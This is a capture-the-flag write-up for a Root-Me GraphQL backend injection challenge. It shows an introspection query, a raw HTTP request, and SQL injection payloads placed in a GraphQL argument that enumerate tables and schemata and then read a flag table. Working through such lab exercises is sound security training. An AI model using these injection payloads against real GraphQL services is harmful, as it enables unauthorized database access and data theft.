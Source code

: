 # GraphQL - Backend injection

`api vuln`: 
- url: http://challenge01.root-me.org:59079/rocketql
- method: POST
- payload:
```json
{"query":"{__schema{types{name,fields{name}}}}"}
```
=> graphql injection

## step 1: use graphql introspection to get all types and fields

`{__schema{queryType{name}mutationType{name}subscriptionType{name}types{...FullType}directives{name description locations args{...InputValue}}}}fragment FullType on __Type{kind name description fields(includeDeprecated:true){name description args{...InputValue}type{...TypeRef}isDeprecated deprecationReason}inputFields{...InputValue}interfaces{...TypeRef}enumValues(includeDeprecated:true){name description isDeprecated deprecationReason}possibleTypes{...TypeRef}}fragment InputValue on __InputValue{name description type{...TypeRef}defaultValue}fragment TypeRef on __Type{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name}}}}}}}}`

## step2: display chart
https://graphql-kit.com/graphql-voyager/

![alt text](chart.png)

payload: 
```
POST /rocketql HTTP/1.1
Host: challenge01.root-me.org:59079
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://challenge01.root-me.org:59079/
Content-Type: application/json
Content-Length: 129
Origin: http://challenge01.root-me.org:59079
Connection: keep-alive
Cookie: session=.eJwlzjsOwjAMANC7ZGZIYseOe5nKv6isLZ0QdweJd4L3Lvs68zrK9jrvfJT9GWUr2KiLi9UJmXWIDSXEpcYIMzwRrUrHGDVkeS7g5DlgVHAVDDKj6EpLPaFV4BEz0XoTZ5pJjRehUm-9JoSbqDduQCJMrktn-UXuK8__ZpTPF7kvL04.ZoZwiQ.X-4TOP6p7y76Dzt0oC3xNIRk0bw; PHPSESSID=6200fd7eaac370c518010e3d72be55e2
X-PwnFox-Color: red
Priority: u=0

{"query":"{ rocket(id: \"0 UNION SELECT 2,table_name,2,2 FROM information_schema.tables  -- -\") { name, country, is_active } }"}
```

payload found schema: 
```json
"query":"{ rocket(id: \"0 UNION SELECT 2,schema_name,2,2 FROM INFORMATION_SCHEMA.schemata limit 1 offset 2-- -\") { name, country, is_active } }"
```

payload get flag:

```json
"query":"{ rocket(id: \"0 UNION SELECT 2,value,2,2 FROM secret_db.flag limit 1 offset 0-- -\") { name, country, is_active } }"
```

i wrote sol.py to enum table (uncomment to use) and column (uncomment to use).